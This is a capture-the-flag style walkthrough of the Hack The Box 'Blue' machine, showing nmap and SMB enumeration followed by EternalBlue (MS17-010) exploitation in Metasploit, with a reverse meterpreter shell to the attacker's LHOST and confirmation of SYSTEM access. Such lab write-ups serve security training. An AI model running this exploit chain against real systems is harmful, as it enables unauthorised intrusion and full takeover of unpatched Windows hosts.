






<div align="left">


</div>

# Hack The Box: Blue

<div align="left">

<br>
<br>


</div>

---

# 📌 Overview

Blue is a classic Windows lab demonstrating exploitation of **MS17-010 (EternalBlue)** — a critical SMB vulnerability affecting Windows 7 systems.

The attack chain:

* SMB enumeration
* Vulnerability confirmation (MS17-010)
* Remote exploitation via Metasploit
* SYSTEM-level shell acquisition

This machine reinforces structured exploitation workflow in legacy Windows environments.

---

## 🛠 Tools Used

```
nmap                → service discovery
netexec (nxc)       → SMB authentication testing
msfconsole          → MS17-010 exploitation
meterpreter         → post-exploitation interaction
```

---

## <h1 style="color:pink;">Walkthrough steps</h1>

---

### Step 1  Recon (Nmap)

**Goal:** Identify open SMB ports and OS version.

```bash
nmap -sC -sV -T5 10.129.6.183 -oN nmap_result
```

**What to observe:**

* Port 445 open (SMB)
* Windows 7 Professional SP1 detected



---

### Step 2  SMB Enumeration

**Goal:** Check SMB shares and guest access.

```bash
smbclient -L //10.129.6.183
nxc smb 10.129.6.183 -u 'guest' -p ''
```

**What to observe:**

* SMB signing disabled
* Guest authentication possible



---

### Step 3  Launch Metasploit & Load EternalBlue Module

**Goal:** Prepare MS17-010 exploit.

```text
msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 10.129.6.183
set LHOST 10.10.15.197
set LPORT 4444
check
```

**What to observe:**

* Target is likely VULNERABLE to MS17-010



---

### Step 4  Exploit Target

**Goal:** Execute EternalBlue attack.

```text
run
```

**What to observe:**

* Exploit stages successfully
* Meterpreter session opened



---

### Step 5  Confirm SYSTEM Access

**Goal:** Verify privilege level and system details.

```text
getuid
sysinfo
```

**What to observe:**

* NT AUTHORITY\SYSTEM
* Windows 7 SP1 confirmed



---

## 🧠 What This Lab Teaches

* Importance of SMB enumeration
* Identifying legacy unpatched systems
* Structured exploitation workflow
* Immediate SYSTEM-level impact of EternalBlue

---

## 📌 Conclusion

Blue reinforces a critical real-world lesson:

> Unpatched legacy systems can be fully compromised in seconds.

MS17-010 remains one of the most impactful Windows vulnerabilities in history, emphasizing the importance of patch management and SMB hardening.

---
This work is part of **FuzzRaiders**’ structured hands-on training and research program, where every lab, project, and technical study is formally documented, reviewed, and validated to ensure real-world applicability, methodological rigor and real-world security execution

Happy hacking 🚀

---

### Author
## [LinkedIn:](https://www.linkedin.com/in/manka-sec/)
---